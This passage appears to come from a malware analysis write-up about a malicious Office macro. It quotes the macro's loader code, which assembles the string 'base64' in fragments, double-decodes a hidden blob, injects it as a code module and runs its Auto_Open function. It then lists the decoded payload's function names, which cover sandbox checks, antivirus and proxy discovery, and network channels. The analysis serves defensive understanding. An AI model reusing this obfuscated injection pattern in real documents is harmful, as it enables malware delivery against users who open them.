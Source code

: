 

Next, the string "base64" is formed, and then the blob is base64-decoded
a second time, and then added to a CodeModule. Finally, that module's
`Auto_Open` function is run:



        chckT = chckT + "ba"
        chckT = chckT + "s"
        chckT = chckT + "e6"
        chckT = chckT + "4"

        mlngCode.DataType = chckT
        mlngCode.Text = comStr
        blnCurrent = mlngCode.NodeTypedValue
        objectFile.CodeModule.AddFromString StrConv(blnCurrent, vbUnicode)
        errDesktop.Run ("Auto_Open")



### Decoded

I pulled out the blob and decoded it twice. The resulting code seems to
be completely unobfuscated.

#### Function Names

To start, looking at the list of function names, there's a good bit to
do with networking, as well as some other really interesting ones like
`Sandbox`, `IsLocalAdmin`, `IsOutlookRunning`, `GetAV`, `GetProxy`:



    Private Declare Function IcmpCreateFile Lib "icmp.dll" () As Long
    Private Declare Function IcmpCloseHandle Lib "icmp.dll" _
    Private Declare Function IcmpSendEcho Lib "icmp.dll" _
    Private Declare Function WSAGetLastError Lib "wsock32" () As Long
    Private Declare Function WSAStartup Lib "wsock32" _
    Private Declare Function WSACleanup Lib "wsock32" () As Long
    Private Declare Function gethostname Lib "wsock32" _
    Private Declare Function gethostbyname Lib "wsock32" _
    Private Declare Function inet_addr Lib "wsock32" _
    Private Declare Function DnsQuery Lib "dnsapi" Alias "DnsQuery_A" (ByVal strname As String, ByVal wType As Integer, ByVal fOptions As Long, ByVal pServers As Long, ppQueryResultsSet As Long, ByVal pReserved As Long) As Long
    Private Declare Function DnsRecordListFree Lib "dnsapi" (ByVal pDnsRecord As Long, ByVal FreeType As Long) As Long
    Function Main()
    Function SandBox()
    Function GetMethodType(myWebsite)
    Function BuildQuery() As String
    Function InitHTTP(myWebsite, objHTTP, sText)
    Function InitHTTPS(myWebsite, sText)
    Function TestDNS()
    Function TestHTTP(objHTTP, myWebsite)
    Function TestHTTPS(myWebsite)
    Function TestICMP(strHost)
    Function IsLocalAdmin(objSysInfo)
    Function IsOutlookRunning(objWMIService)
    Function GetUser(objSysInfo)
    Function GetDomain(objWMISvc, colItems)
    Function GetAV(colItemsAV)
    Function GetProxy(oReg)
    Function btoa(sourceStr)
    Private Function QueryDNS(sAddr As String) As Boolean
    Private Function sendPing(Adrr, text) As Boolean
    Private Function Ping(sAddress As String, _
    Private Function SocketsInitialize() As Boolean